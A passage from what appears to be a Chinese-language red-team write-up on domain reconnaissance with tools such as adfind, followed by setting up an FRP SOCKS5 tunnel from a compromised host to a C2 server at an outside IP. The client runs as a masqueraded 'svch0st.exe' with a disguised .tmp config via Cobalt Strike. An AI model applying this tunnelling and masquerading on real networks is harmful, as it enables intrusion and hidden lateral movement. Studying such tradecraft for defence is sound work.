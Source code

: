 
可以使用域内信息收集工具进行域内信息收集。域内信息收集工具比如：

- adfind
- powerviewer
- ad explorer

使用工具的好处就是：跑一次就可以收集到所有信息。不用一条一条的查。因为有的时候，今天上的来，明天也许就不行了。但是盯着都是很久的。所以就需要不停的收集对抗，直到达到目的。

我使用 adfind 对域内信息进行了收集，adfind 可以在域内的任意一台机器上使用。输出结果重定向为文件。

>Todo：
当前这些信息都是手工整理阶段，后期需要使用 BloodHunt 对其进行图形化和建模化，方便快速查找。

# 0x04 内网通道

## 搭建 FRP 隧道：


因为要横向的机器是内网 IP，所以先要把内网流量代理出来使用。分析当前的网络环境：这是一种比较理想的网络环境，目标机可以正常访问互联网。这样设想的方式有两种：

 1. FRP(socks5)
 2. Cobalt Strike 自带的 socks4a 功能



出于速度的考虑，准备选用 FRP 隧道来打通目标的内网通道。


C2 机器上开 FRP 服务端：

frps.ini：
```
[common]
bind_port = 6666
```

```
chmod +x frps
sudo ./frps -c ./frps.ini
```

目标机器上开 FRP 客户端：

DMI3D88.tmp：

```
[common]
server_addr = 47.x.x.165
server_port = 6666
[plugin_socks5]
type = tcp
remote_port = 8088
plugin = socks5
use_encryption = true 
use_compression = true
```

```
shell C:\Windows\Temp\svch0st.exe -c C:\Windows\Temp\DMI3D88.tmp
```
